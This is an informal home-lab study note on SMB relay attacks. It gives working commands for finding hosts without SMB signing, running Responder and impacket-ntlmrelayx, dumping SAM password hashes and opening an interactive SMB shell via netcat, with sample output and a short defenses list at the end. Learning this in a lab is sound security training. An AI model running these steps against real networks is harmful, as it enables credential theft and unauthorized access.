

**SMB Relay**
 
 
what is it.. instead of cracking hashes obtained with repsonder. 
 
attempt to relay hashes to specific machines to potentially gain access 
 
REQUIREMENTS 
 
SMB signing must be disabled on the target 
Relayed user creds must be admin on the machine 
 
instead of just capturing hash, send the hash to other machine. if has is admin, gain access and start dumping sensitive information including SAM file. can escilate to shell 
 
Discover Hosts iwth SMB signing disabled 
 
sudo nmap --script=smb2-security-mode.nse -p445 192.168.247.0/24 
 
just learnt!!! &gt;&gt;&gt; if a tool isnt playing nice... SUDO! 
 
 
Nmap scan report for 192.168.247.133 
Host is up (0.000091s latency). 
 
PORT  STATE SERVICE 
445/tcp open microsoft-ds 
MAC Address: 00:0C:29:E0:C0:FC (VMware) 
 
Host script results: 
| smb2-security-mode:  
|  3.1.1:  
|_  Message signing enabled and required &gt;&gt;&gt;&gt; expected on by default on servers. cannot relay to DNS sever 
 
Nmap scan report for 192.168.247.134 
Host is up (0.00026s latency). 
 
PORT  STATE SERVICE 
445/tcp open microsoft-ds 
MAC Address: 00:0C:29:02:17:E4 (VMware) 
 
Host script results: 
| smb2-security-mode:  
|  3.1.1:  
|_  Message signing enabled but not required &gt;&gt;&gt;&gt;&gt; not required so can attack 
 
Nmap scan report for 192.168.247.135 
Host is up (0.00019s latency). 
 
PORT  STATE SERVICE 
445/tcp open microsoft-ds 
MAC Address: 00:0C:29:BD:DF:9B (VMware) 
 
Host script results: 
| smb2-security-mode:  
|  3.1.1:  
|_  Message signing enabled but not required 
 
 
Set up a targets.txt 
 
TIME FOR ATTACK 
 
edit responder config 
 
gedit /etc/responder/Responder.conf  
 
turn off SMB 
turn off HTTP 
 
re run responder 
 
sudo responder -I eth0 -dwv  
 
 
 
SET UP RELAY 
 
impacket-ntlmrelayx -tf targets.txt -smb2support 
 
Note differnt from heaths example. had to add the &quot;impacket-&quot; and no &quot;.py&quot; 
 
emulate traffic by going to VM1 (has admin accross both) and navigating to attacker. use \\&lt;ip&gt; in address bar 
 
ntlmrelayx passes hash to target machine VM2 connects and dumps SAM hashes 
 
 
 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:53dfc04147dd08ee2761f307750ebaeb::: 
Jean Grey:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b::: 
 
Access enabled... lateral.. vertical.. all the al 
 
CREATING A SHELL 
 
add -i to impacket-ntlmrelayx -tf targets.txt -smb2support &gt;&gt; attempt to get an &quot;interactive&quot; 
 
same process as above 
 
ntlmrelayx 
 
[*] SMBD-Thread-4: Connection from MARVEL/LHOWLETTE@192.168.247.135 controlled, attacking target smb://192.168.247.134 
[*] Authenticating against smb://192.168.247.134 as MARVEL/LHOWLETTE SUCCEED 
[*]<b>Started interactive SMB client shell via TCP on 127.0.0.1:11000</b> 
[*] SMBD-Thread-4: Connection from MARVEL/LHOWLETTE@192.168.247.135 controlled, but there are no more targets left! 
 
 
netcat this <b>127.0.0.1:11000</b> 
 
nc 127.0.0.1 11000  
 
┌──(kali㉿kali)-[~] 
└─$ nc 127.0.0.1 11000        
Type help for list of commands 
# help 
 
open {host,port=445} - opens a SMB connection against the target host/port 
login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted 
kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name 
login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes 
logoff - logs off 
shares - list available shares 
use {sharename} - connect to an specific share 
cd {path} - changes the current directory to {path} 
lcd {path} - changes the current local directory to {path} 
pwd - shows current remote directory 
password - changes the user password, the new password will be prompted for input 
ls {wildcard} - lists all the files in the current directory 
rm {file} - removes the selected file 
mkdir {dirname} - creates the directory under the current path 
rmdir {dirname} - removes the directory under the current path 
put {filename} - uploads the filename into the current path 
get {filename} - downloads the filename from the current path 
mget {mask} - downloads all files from the current directory matching the provided mask 
cat {filename} - reads the filename from the current path 
mount {target,path} - creates a mount point from {path} to {target} (admin required) 
umount {path} - removes the mount point at {path} without deleting the directory (admin required) 
list_snapshots {path} - lists the vss snapshots for the specified path 
info - returns NetrServerInfo main results 
who - returns the sessions currently connected at the target host (admin required) 
close - closes the current SMB Session 
exit - terminates the server process (and this session) 
 
 
#  
 
DEFENSES 
 
Enable SMB signing on ALL devices (performance hit) 
 
Disable NTLM authentication on network 
IF kerberos fails windows will default back to NTLM anyway 
 
Acount Teiring 
limit domain admins to specific takss 
 
Local admin restrictions - strick to domain servers. no local machines 
prevent lateral movement 
 
 
